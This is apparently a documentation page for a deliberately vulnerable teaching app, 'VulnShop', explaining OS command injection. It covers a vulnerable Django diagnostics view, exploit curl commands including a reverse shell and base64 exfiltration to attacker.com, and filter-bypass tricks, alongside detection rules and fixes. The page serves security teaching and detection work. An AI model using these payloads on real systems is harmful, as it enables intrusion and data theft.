

# Command Injection

**Command Injection** (also known as OS Command Injection or Shell Injection) allows attackers to execute arbitrary operating system commands on the server. This vulnerability occurs when user input is passed to system shell commands without proper sanitization.

## Overview

| Attribute | Value |
|-----------|-------|
| **CWE** | [CWE-78: OS Command Injection](https://cwe.mitre.org/data/definitions/78.html) |
| **OWASP** | A03:2021 - Injection |
| **Severity** | Critical (CVSS 9.8) |
| **Impact** | Complete server compromise |

## How It Works



### Vulnerable Code Pattern

```python
# VULNERABLE: User input in shell command
def ping_host(request):
    hostname = request.GET['host']
    result = os.system(f"ping -c 4 {hostname}")
    return HttpResponse(result)
```

### Attack Example

Input:
```
host=localhost; cat /etc/passwd
```

Executed command:
```bash
ping -c 4 localhost; cat /etc/passwd
```

The `;` terminates the ping command and executes `cat /etc/passwd`.

## VulnShop Implementation

### Location: Admin Diagnostics

**File:** `admin_panel/views.py:55-70`

```python
@staff_member_required
def diagnostics_view(request):
    if request.method == 'POST':
        hostname = request.POST.get('hostname', '')
        action = request.POST.get('action', 'ping')

        # VULNERABLE: Command Injection
        if action == 'ping':
            command = f"ping -c 4 {hostname}"
        elif action == 'traceroute':
            command = f"traceroute {hostname}"
        elif action == 'nslookup':
            command = f"nslookup {hostname}"

        result = os.popen(command).read()
        return render(request, 'admin/diagnostics.html', {'result': result})
```

**Attack URL:** `/admin-panel/diagnostics/`

**Exploits:**

```bash
# Read sensitive files
curl -X POST http://localhost:8000/admin-panel/diagnostics/ \
  -d "hostname=localhost;cat /etc/passwd&action=ping"

# Reverse shell
curl -X POST http://localhost:8000/admin-panel/diagnostics/ \
  -d "hostname=localhost;bash -i >& /dev/tcp/attacker.com/4444 0>&1&action=ping"

# Data exfiltration
curl -X POST http://localhost:8000/admin-panel/diagnostics/ \
  -d "hostname=localhost;curl http://attacker.com/?data=$(cat /etc/passwd | base64)&action=ping"
```

## Command Injection Techniques

### Command Separators

| Character | Description | Example |
|-----------|-------------|---------|
| `;` | Command separator (Unix) | `host; whoami` |
| `&&` | AND operator | `host && whoami` |
| `\|\|` | OR operator | `host \|\| whoami` |
| `\|` | Pipe | `host \| whoami` |
| `\n` | Newline | `host%0awhoami` |
| `` ` `` | Command substitution | ``host`whoami` `` |
| `$()` | Command substitution | `host$(whoami)` |

### Bypassing Filters

```bash
# Space bypass
cat${IFS}/etc/passwd
cat<>/etc/passwd

# Keyword bypass
c'a't /etc/passwd
c"a"t /etc/passwd
/???/??t /etc/passwd

# Base64 encoding
echo Y2F0IC9ldGMvcGFzc3dk | base64 -d | bash
```

## Detection by Tool

### Pysa Detection

**Rule Code:** 5003

```python
# models/system_sinks.pysa
def os.system(
    command: TaintSink[RemoteCodeExecution]
): ...

def os.popen(
    cmd: TaintSink[RemoteCodeExecution],
    mode = ...,
    buffering = ...
): ...

def subprocess.run(
    args: TaintSink[RemoteCodeExecution],
    **kwargs
): ...
```

### CodeQL Detection

**Query:** `command-injection.ql`

```ql
class CommandInjectionConfig extends TaintTracking::Configuration {
  CommandInjectionConfig() { this = "CommandInjectionConfig" }

  override predicate isSource(DataFlow::Node source) {
    source instanceof RemoteFlowSource
  }

  override predicate isSink(DataFlow::Node sink) {
    exists(Call call |
      call.getFunc().(Attribute).getName() in ["system", "popen"] and
      call.getFunc().(Attribute).getObject().(Name).getId() = "os" and
      sink.asExpr() = call.getArg(0)
    )
    or
    exists(Call call |
      call.getFunc().(Attribute).getName() in ["run", "call", "Popen"] and
      call.getFunc().(Attribute).getObject().(Name).getId() = "subprocess" and
      call.getKeywordArg("shell").(BooleanLiteral).booleanValue() = true and
      sink.asExpr() = call.getArg(0)
    )
  }

  override predicate isSanitizer(DataFlow::Node node) {
    exists(Call call |
      call.getFunc().(Attribute).getName() = "quote" and
      call.getFunc().(Attribute).getObject().(Name).getId() = "shlex" and
      node.asExpr() = call
    )
  }
}
```

### Semgrep Detection

**Rule:** `command-injection.yml`

```yaml
rules:
  - id: command-injection-os-system
    pattern-either:
      - pattern: os.system($CMD)
      - pattern: os.popen($CMD, ...)
    message: >
      Command injection vulnerability. User input in os.system/popen
      can lead to arbitrary command execution.
    severity: ERROR
    languages: [python]
    metadata:
      cwe: "CWE-78"
      owasp: "A03:2021"

  - id: command-injection-subprocess-shell
    patterns:
      - pattern-either:
          - pattern: subprocess.run($CMD, ..., shell=True, ...)
          - pattern: subprocess.call($CMD, ..., shell=True, ...)
          - pattern: subprocess.Popen($CMD, ..., shell=True, ...)
      - pattern-not: subprocess.$FUNC($CONST, ..., shell=True, ...)
        metavariable-regex:
          metavariable: $CONST
          regex: ^["'][^"']*["']$
    message: >
      Subprocess with shell=True and variable input is vulnerable
      to command injection.
    severity: ERROR
    languages: [python]
```

## Remediation

### 1. Avoid Shell Commands (Best)

```python
import ipaddress

def ping_host(request):
    hostname = request.POST.get('hostname', '')

    # Validate input is a valid IP/hostname
    try:
        ipaddress.ip_address(hostname)
    except ValueError:
        return HttpResponse("Invalid IP address", status=400)

    # Use library instead of shell
    import ping3
    result = ping3.ping(hostname)
    return HttpResponse(f"Ping result: {result}")
```

### 2. Use subprocess with shell=False

```python
import subprocess
import shlex

def ping_host(request):
    hostname = request.POST.get('hostname', '')

    # Validate hostname format
    if not re.match(r'^[a-zA-Z0-9.-]+$', hostname):
        return HttpResponse("Invalid hostname", status=400)

    # SAFE: shell=False with argument list
    result = subprocess.run(
        ['ping', '-c', '4', hostname],
        capture_output=True,
        text=True,
        timeout=30
    )
    return HttpResponse(result.stdout)
```

### 3. Use shlex.quote for Shell Commands

```python
import shlex
import subprocess

def ping_host(request):
    hostname = request.POST.get('hostname', '')

    # SAFER: Quote the argument (still prefer shell=False)
    safe_hostname = shlex.quote(hostname)
    result = subprocess.run(
        f"ping -c 4 {safe_hostname}",
        shell=True,
        capture_output=True,
        text=True
    )
    return HttpResponse(result.stdout)
```

### 4. Allowlist Approach

```python
ALLOWED_COMMANDS = {
    'ping': ['ping', '-c', '4'],
    'traceroute': ['traceroute', '-m', '15'],
    'nslookup': ['nslookup'],
}

def diagnostics_view(request):
    action = request.POST.get('action', '')
    hostname = request.POST.get('hostname', '')

    # Validate action
    if action not in ALLOWED_COMMANDS:
        return HttpResponse("Invalid action", status=400)

    # Validate hostname
    if not re.match(r'^[a-zA-Z0-9.-]+$', hostname):
        return HttpResponse("Invalid hostname", status=400)

    # SAFE: Allowlisted command with validated input
    command = ALLOWED_COMMANDS[action] + [hostname]
    result = subprocess.run(command, capture_output=True, text=True)
    return HttpResponse(result.stdout)
```

## Detection Comparison

| Tool | Detected | Method | Notes |
|------|:--------:|--------|-------|
| Pysa | ✅ | Taint tracking | Detects all patterns |
| CodeQL | ✅ | Dataflow analysis | Includes subprocess |
| Semgrep | ✅ | Pattern matching | Covers shell=True |

## Testing Checklist

- [ ] System administration functions
- [ ] File processing utilities
- [ ] Network diagnostic tools
- [ ] PDF/image conversion
- [ ] Email functionality
- [ ] Backup/export features
- [ ] Log viewers

## Common Vulnerable Functions

### Python

```python
os.system()
os.popen()
os.spawn*()
subprocess.run(shell=True)
subprocess.call(shell=True)
subprocess.Popen(shell=True)
commands.getoutput()  # Python 2
commands.getstatusoutput()  # Python 2
```

### Other Languages

```php
// PHP
system(), exec(), shell_exec(), passthru(), popen()

// Java
Runtime.exec(), ProcessBuilder

// Node.js
child_process.exec(), child_process.spawn({shell: true})

// Ruby
system(), exec(), `backticks`, %x{}
```

## References

- [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [CWE-78](https://cwe.mitre.org/data/definitions/78.html)
- [PayloadsAllTheThings - Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
- [HackTricks - Command Injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
